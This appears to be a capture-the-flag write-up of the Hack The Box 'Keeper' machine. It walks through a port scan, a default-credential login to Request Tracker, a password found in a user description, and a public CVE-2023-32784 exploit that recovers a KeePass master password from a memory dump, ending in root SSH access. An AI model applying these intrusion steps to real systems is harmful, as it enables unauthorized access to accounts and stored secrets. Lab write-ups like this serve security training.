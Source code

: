 ```yaml
---
layout: post_1
title: "Keeper - HTB"
date: 2024-02-13
---
```


# HTB Keeper Write Up
![HTB Keeper](/assets/2024-02-13-writeups-keeper-htb/machine_info.png "Keeper")

## Introduction
Keeper is a company that provides a cloud ticketing service. It hosts the open-source software Best Practical Request Tracker.

## Network Scan

<details>
<summary><b>Nmap scan result</b></summary>

```

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3539d439404b1f6186dd7c37bb4b989e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKHZRUyrg9VQfKeHHT6CZwCwu9YkJosNSLvDmPM9EC0iMgHj7URNWV3LjJ00gWvduIq7MfXOxzbfPAqvm2ahzTc=
|   256 1ae972be8bb105d5effedd80d8efc066 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBe5w35/5klFq1zo5vISwwbYSVy1Zzy+K9ZCt0px+goO
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

</details>

## Investigation
First, the network scan analysis shows us an HTTP server running nginx.  
We didn't get a vhost redirection on `nmap`, so we can access the server without any.
The page just prints a redirection message to tickets.keeper.htb/rt vhost.
![Http server no vhost](/assets/2024-02-13-writeups-keeper-htb/http_server_no_vhost.png "Http server no vhost")   

### tickets.keeper.htb
Best Practical Request Tracker software.  
There is no public exploit to recent vulnerabilities.  
This service comes with default credentials.  
```
User: root
Pass: password
```

It is possible to log in with default credentials.
![Request tracker page](/assets/2024-02-13-writeups-keeper-htb/request_tracker_page.png "Request tracker page")

Issue tracker software normally contains sensitive information. Usually on the issues but they can be useful in finding users list, information about local services, etc.
On this server, there were only two users:
![Request tracker user list](/assets/2024-02-13-writeups-keeper-htb/request_tracker_user_list.png "Request tracker user list")
lnorgaard user has the password on the description
![lnorgaard password](/assets/2024-02-13-writeups-keeper-htb/lnorgaard_password.png "lnorgaard password")

Checking if it's possible to log in on ssh with this user and it's possible.

### lnorgaard
RT30000.zip file on home, containing two files
```
$ unzip -l RT30000.zip 
Archive:  RT30000.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
253395188  2023-05-24 12:51   KeePassDumpFull.dmp
     3630  2023-05-24 12:51   passcodes.kdbx
---------                     -------
253398818                     2 files
```

Looking into the files
```
$ file KeePassDumpFull.dmp 
KeePassDumpFull.dmp: Mini DuMP crash report, 16 streams, Fri May 19 13:46:21 2023, 0x1806 type
```
```
$ file passcodes.kdbx 
passcodes.kdbx: Keepass password database 2.x KDBX
```

There is a [KeePass vulnerability][CVE-2023-32784] that it possible to retrieve passwords from a memory dump.
Using a public exploit from [vdhoney][keepass-password-dumper] it's possible to find a list with possible passwords
```
$ dotnet run ~/keeper/KeePassDumpFull.dmp
... SNIP ...
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```
This means that the first character is unknown `●` and the following are possible 16-second characters appended on beginning of `dgrød med fløde`.
Using Google Translate to identify the language, to later perform a smart brute force on the character set. The language was identified as Danish.
When doing this, it was corrected to `rødgrød med fløde`. This is the correct password for passcodes.kdbx

There was a root user with both password and PuTTY SSH key pair
![Root SSH](/assets/2024-02-13-writeups-keeper-htb/root_ssh.png "Root SSH")

[A PuTTY ssh key can be converted to openssh format][ssh-key-types-convert-ppk].
Following the guide to get the private key and log in as the root
```
$ ssh -i root.id_rsa root@10.10.11.227
$ id
uid=0(root) gid=0(root) groups=0(root)
```

[CVE-2023-32784]: <https://nvd.nist.gov/vuln/detail/CVE-2023-32784> "CVE-2023-32784"
[keepass-password-dumper]: <https://github.com/vdohney/keepass-password-dumper> "keepass-password-dumper"
[ssh-key-types-convert-ppk]: <https://www.baeldung.com/linux/ssh-key-types-convert-ppk> "ssh-key-types-convert-ppk"
